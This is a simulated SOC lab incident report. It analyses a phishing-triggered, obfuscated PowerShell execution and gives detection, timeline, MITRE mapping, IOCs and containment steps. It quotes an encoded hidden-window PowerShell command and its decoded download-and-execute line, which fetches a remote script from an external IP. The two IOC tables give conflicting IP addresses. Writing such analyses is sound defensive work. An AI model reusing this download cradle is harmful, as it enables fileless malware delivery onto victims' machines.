



# 🚨 Case 01: Suspicious PowerShell Obfuscated Execution

**Date:** 2026-05-22  
**Analyst:** Lucas Rodrigues  
**Severity:** HIGH  
**Environment:** Simulated SOC Lab  
**Tools:** Sysmon, Wireshark, Wazuh, CyberChef, PowerShell

---

# 🧾 Incident Summary

A suspicious PowerShell execution was identified on workstation `WKSTN-FIN-03` shortly after a user accessed a phishing URL through Google Chrome.

The activity resembled malware delivery techniques commonly associated with real-world phishing campaigns such as Emotet and Qakbot, where obfuscated PowerShell commands are used to download and execute remote payloads directly in memory.

The command used Base64 encoding combined with hidden window execution parameters (`-nop -w hidden -enc`) to evade detection and reduce visibility to the end user.

Further investigation revealed:

- Suspicious PowerShell child process spawned from browser activity
- Encoded command execution
- Remote payload retrieval attempt
- Potential command-and-control communication behavior
- Fileless execution characteristics

The incident was classified as a HIGH severity threat due to the possibility of malware staging and lateral movement preparation.

---

# 🚨 Detection

## Sysmon Event ID 1 — Process Creation

```powershell
powershell.exe -nop -w hidden -e JABjAGwA...
```

### Suspicious Indicators

- Encoded PowerShell execution
- Hidden window execution
- Suspicious parent process (`chrome.exe`)
- External network communication
- In-memory execution behavior

---

# 🔍 Investigation & Analysis

## Decoded Payload

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://45.33.32.18/payload.ps1')
```

## Observed Behavior

- PowerShell launched from browser activity
- Remote script download attempt
- Potential command-and-control communication
- Fileless execution technique

---

# 🕒 Attack Timeline

| Time (UTC) | Event |
|------------|------|
| 14:21:03 | User accessed phishing URL through Chrome |
| 14:21:10 | Chrome spawned PowerShell process |
| 14:21:11 | Encoded PowerShell command executed |
| 14:21:13 | External connection attempt detected |
| 14:21:15 | Payload download initiated |
| 14:21:18 | Suspicious network traffic flagged |
| 14:22:02 | SOC alert generated by monitoring rules |
| 14:23:10 | Incident triaged by analyst |
| 14:25:44 | Malicious process terminated |
| 14:27:01 | External IP blocked at firewall |

---

# 🧠 MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|--------|-----------|----|
| Execution | PowerShell | T1059.001 |
| Defense Evasion | Obfuscated Files or Information | T1027 |
| Command and Scripting Interpreter | PowerShell | T1059 |

---

# 🧪 IOC Extraction

| Type | Value |
|------|-------|
| External IP | 45.33.32.18 |
| Technique | PowerShell Obfuscation |
| Parent Process | chrome.exe |
| Payload | payload.ps1 |

---

# 🔒 Containment Actions

- Terminated malicious PowerShell process
- Blocked external IP communication
- Isolated affected workstation
- Recommended password reset for affected user

---

# 📚 Lessons Learned

- PowerShell logging should be enhanced
- Script Block Logging should be enabled
- Network egress filtering can reduce exposure
- User awareness training remains critical

---

# 🖼️ Evidence & Screenshots

Planned screenshots:

- Sysmon Event Viewer logs
- Wireshark traffic capture
- Wazuh alert dashboard
- CyberChef Base64 decoding
- Incident timeline
---

# 📸 Investigation Evidence

## Sysmon Process Creation



---

## CyberChef Base64 Decode



---

## Wireshark Malware Traffic



---

# 🧾 IOC Summary

| IOC Type | Value |
|----------|-------|
| External IP | 80.71.157.216 |
| Internal Host | 10.1.6.101 |
| Suspicious Process | powershell.exe |
| Parent Process | chrome.exe |
| Protocol | HTTP |
| Payload Type | application/gzip |
| Technique | PowerShell Obfuscation |
| MITRE ATT&CK | T1059.001 |

---

# 📌 Analyst Conclusion

The investigation confirmed suspicious PowerShell activity associated with obfuscated command execution and external payload retrieval behavior.

Network analysis identified outbound HTTP communication with a suspicious external server, followed by successful payload delivery using compressed content transfer.

The attack chain demonstrated characteristics commonly observed in phishing-based malware delivery campaigns leveraging fileless execution techniques.

Immediate containment actions were performed to reduce the risk of lateral movement and additional payload execution within the environment.